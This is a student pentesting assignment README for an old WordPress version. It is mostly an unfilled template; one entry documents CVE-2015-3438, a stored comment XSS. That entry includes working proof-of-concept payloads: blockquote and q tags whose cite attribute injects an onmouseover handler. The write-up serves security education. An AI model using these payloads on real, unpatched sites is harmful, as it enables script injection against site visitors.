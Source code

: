 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Un-auth XSS in Comment [CVE-2015-3438](https://nvd.nist.gov/vuln/detail/CVE-2015-3438)
  - Summary:
    - XSS
    - 4.1.1
    - 4.1.2
  - GIF Walkthrough:
  - Steps to recreate:

```
.ohno {
	display:block;
	position:fixed;
	width:100%;
	height:100%;
	top:0;
}
```

```
sometext
<blockquote cite='x onmouseover=alert(1) class=ohno 𝌆'>
```
```
xss
<q cite='x onmouseover=alert(1) style=display:block;position:fixed;width:100%;height:100%;top:0; 𝌆'>
```
  - Reference: [https://cedricvb.be/post/wordpress-stored-xss-vulnerability-4-1-2/]()


1. (Required) Vulnerability Name or ID
  - Summary:
    - Vulnerability types:
    - Tested in version:
    - Fixed in version:
  - GIF Walkthrough:
  - Steps to recreate:
  - Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Vulnerability Name or ID
  - Summary:
    - Vulnerability types:
    - Tested in version:
    - Fixed in version:
  - GIF Walkthrough:
  - Steps to recreate:
  - Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - Summary:
    - Vulnerability types:
    - Tested in version:
    - Fixed in version:
  - GIF Walkthrough:
  - Steps to recreate:
  - Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - Summary:
    - Vulnerability types:
    - Tested in version:
    - Fixed in version:
  - GIF Walkthrough:
  - Steps to recreate:
  - Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
